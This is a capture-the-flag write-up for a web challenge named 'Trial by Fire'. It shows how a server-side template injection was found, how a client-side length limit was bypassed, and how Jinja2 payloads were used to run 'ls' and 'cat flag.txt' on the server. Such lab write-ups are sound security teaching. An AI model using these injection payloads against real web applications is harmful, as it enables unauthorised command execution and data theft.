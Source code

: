 # Challenge
Trial by Fire

As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategiAc mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

![](assets/Pasted%20image%2020250321224731.png)
In this challenge, we have a prompt based from this we can identify if its vulnerable to some kind of injections. I test several injection techniques, until I found a SSTI with this payload.
```
{{7*7}} //result will be 49
```
```
<input type="text" id="warrior_name" name="warrior_name" class="nes-input" required="" placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
```
Testing SST payloads from [ssti payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), but the thing is the input have character limits. Based from the source code its 30 characters max length.

To bypass this we can modify the html in dev tools, leave it as blank. Then inject our SSTi payload into name input to read the current directory of the system.
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```


![](assets/Pasted%20image%2020250321224656.png)

We got the flag :)
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
![](assets/Pasted%20image%2020250321224956.png)

![](assets/Pasted%20image%2020250321224853.png)

![](assets/Pasted%20image%2020250321225037.png)
